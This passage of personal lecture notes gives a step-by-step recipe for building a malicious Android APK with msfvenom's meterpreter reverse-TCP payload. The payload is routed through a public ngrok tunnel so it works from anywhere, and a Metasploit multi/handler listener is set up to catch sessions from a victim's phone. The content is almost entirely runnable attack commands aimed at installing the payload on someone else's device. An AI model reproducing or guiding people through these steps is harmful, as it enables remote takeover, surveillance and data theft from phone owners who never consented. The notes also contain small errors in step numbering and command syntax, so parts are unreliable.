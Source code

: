 	- STEP 2.4 : copy the IP "0.tcp.in.ngrok.io" & port no. "14097" from "forwarding" link & paste them in STEP 2.3 
	- STEP 2.5 : run `msfvenom -p android/meterpreter_reverse_tcp lhost 0.tcp.in.ngrok.io lport 14097 >amit.apk`
		- in command , ✔
			- "`android/meterpreter_reverse_tcp`" : is a payload
			- to make a connection - in which we want listening i.e LHOST & LPORT <br>- "`LHOST 0.tcp.in.ngrok.io`" : is a world-wide IP generated via ngrok - in order to make connection world-wide & <br>- "`LPORT 14097`" : here we put the port no. - which is generated via ngrok , not any custom port no. of like 8686
			- ">amit.apk" : means "`>`" used to save the payload in a apk file
		- `imp Note ✅` :  ✔
			- we didn't pasted the IPv4 of Kali OS - cuz it'll not give world wide access <br>that's why we use ngrok to generate a world-wide link
			- but if we're making connection inside local to local : means in our own local system <br>- then we can use IPv4 of KaliOS instead of ngrok
		- output : Error : One or More options failed to validate LHOST , LPORT <br>- skip this error - cuz the apk file is created
	- STEP 2.4 : run `ls` , output : amit.apk will be shown
	- till yet we created a apk file - but we also need to do listening (means from where that connection should be connected)<br>- so for listening the connection (which is created) - use "msfconsole" tool ✔
- STEP 3 : `service postgresql start` : starting database service of msfconsole tool
	- Note : "msfconsole" doesn't run in root directory , run it in normal mode ✔
	- STEP 3.0 : run `msfconsole`
	- STEP 3.1 : in msf6 , run `use exploit/multi/handler`
		- "exploit/multi/handler" : used handle + manages multiple network sessions , Eg : connecting , etc ✔
		- mine thought : <br>so here "exploit/multi/handler" - will be used to handle the network session of listening that payload connection <br>once connection gets established with a Victim's android phone
	- STEP 3.2 : run `set ExitOnSession false`
		- "ExitOnSession false" : means ✔<br>- generally whenever we try to make a connection for listening - then connection gets break <br>& once connection gets break - then listening also gets stop <br>- so due to this statement , when connection gets lost/break - then listening will stay ON
		- "set" : used to set the options like IP , port no. etc <br>& "use" : used to use something like payload , exploit , etc✔
		- output : <br>![[25_lecture-2-M3.jpg | 500]]
	- STEP 3.3 : run `use payload/android/meterpreter_reverse_tcp`
		- "payload/android/meterpreter_reverse_tcp" : here before "android" - add "payload/" - to tell that we're using payload
		- output : now "android/meterpreter_reverse_tcp" - we're using it as payload <br>![[25_lecture-3-M3.jpg | 500]]
	- STEP 3.4 : run `options`
		- output <br>![[25_lecture-4-M3.jpg | 500]]
		- in output , it's showing Listening HOST & Listening PORT
		- Q : so we need put LHOST but acc. to u which one IP we need put in LHOST ✔
		- Ans : pic <br>![[25_lecture-5-M3.jpg | 500]] <br>- in "forwarding" column : <br>> when a user comes on this URL address "tcp://0.tcp.in.ngrok.io:14097" <br>then ngrok will send that user directly on our "localhost:8080" <br>- so ngrok is sending that user on our "localhost:8080" - then no need put this IP i.e "tcp://0.tcp.in.ngrok.io:14097" ✔<br>- so we'll give IP of our localhost i.e 127.0.0.1 - cuz ngrok is forwarding a user to our localhost ✔
	- STEP 3.5 : run `set lhost 127.0.0.1`
	- STEP 3.6 : now reset the LPORT - cuz "msfconcole" takes by-default a port no. - here i.e 4444 - which is wrong <br>- run `set lport 8080` <br>- output : <br>![[25_lecture-6-M3.jpg | 500]]
	- now when u this payload on someone's android phone - then connection will be shown
- STEP 4 : run `run -j OR run OR exploit` : use any one command <br>output : once u run then sessions will be created & files will be shown
	- STEP 4.0 : after running one of the command from STEP 4 - if connection is not established <br>- then re-write the commands in "msf" from STEP 3.1 & use the "set" with "exploit/multi/handler"
